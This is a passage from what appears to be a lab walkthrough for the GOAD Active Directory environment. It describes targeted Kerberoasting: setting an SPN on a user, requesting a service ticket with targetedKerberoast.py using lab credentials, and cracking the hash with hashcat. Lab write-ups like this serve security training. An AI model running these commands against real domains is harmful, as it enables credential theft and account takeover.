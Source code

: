 
### Target Kerberoasting

- First let's do a target Kerberoasting, the principe is simple. Add an SPN to the user, ask for a tgs, remove the SPN on the user.
- And now we can crack the TGS just like a classic kerberoasting.

- Shutdown have done a tool which do all the work for you : [https://github.com/ShutdownRepo/targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

```bash
targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon
```

![acl_target_kerberoasting.png](/assets/blog/GOAD/acl_target_kerberoasting.png)

- And now just crack the hash

```bash
hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force
```

![acl_kerberoasting_crack.png](/assets/blog/GOAD/acl_kerberoasting_crack.png)

